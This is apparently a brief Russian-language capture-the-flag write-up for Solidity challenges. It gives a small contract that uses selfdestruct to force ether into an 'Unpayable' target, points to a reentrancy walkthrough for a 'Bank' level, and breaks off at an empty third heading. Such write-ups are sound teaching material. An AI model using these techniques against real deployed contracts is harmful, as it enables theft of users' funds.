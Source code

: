 # 0. Unpayable
Задеплоим такой контракт:

```
contract Pay{
    receive() external payable{

    }
    function destroy(address payable addr) public{
        selfdestruct(addr);
    }
}
```
Пополним его баланс переводом на его адрес, потом вызовем `destroy(<адрес контракта Unpayable>)`

# 1. Bank
Типичный reentrancy, решение Ethernaut lvl 10 почти идеально [подходит](https://medium.com/coinmonks/ethernaut-lvl-10-re-entrancy-walkthrough-how-to-abuse-execution-ordering-and-reproduce-the-dao-7ec88b912c14) (отличается только имя одной функции)

# 2. 
